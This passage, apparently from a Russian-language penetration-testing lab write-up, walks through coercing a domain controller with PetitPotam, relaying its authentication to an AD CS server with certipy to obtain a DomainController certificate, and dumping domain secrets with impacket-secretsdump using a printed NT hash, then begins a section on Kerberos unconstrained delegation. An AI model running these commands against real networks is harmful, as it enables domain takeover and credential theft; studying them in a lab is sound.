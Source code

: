 Заставим контроллер домена meereen.essos.local аутентифицироваться на хосте злоумышленника 192.168.56.200, а затем перенаправим аутентификацию на центр сертификации braavos.essos.local (192.168.56.23) для получения сертификата meereen.

```
certipy-ad relay -target 192.168.56.23 -debug -timeout 20 -template 'DomainController'
python /home/kali/PetitPotam/PetitPotam.py -u '' -p '' -d essos.local 192.168.56.200 192.168.56.12
```
![](/images/coerce/Pasted%20image%2020250104005126.png)

```
certipy-ad auth -pfx meereen.pfx -username 'meereen$' -domain 'essos.local' -debug -timeout 10
impacket-secretsdump 'essos.local/meereen$@192.168.56.12' -hashes aad3b435b51404eeaad3b435b51404ee:479fe4f83fef76d1bb97472c725e7043
```
![](/images/coerce/Pasted%20image%2020250104010017.png)

**Неограниченное делегирование Kerberos**

Если у злоумышленника есть привилегии локального администратора на хосте с неограниченным делегированием, он может получить TGT-билеты пользователей, которые проходят аутентификацию на этом хосте, и переиспользовать их до истечения срока действия.

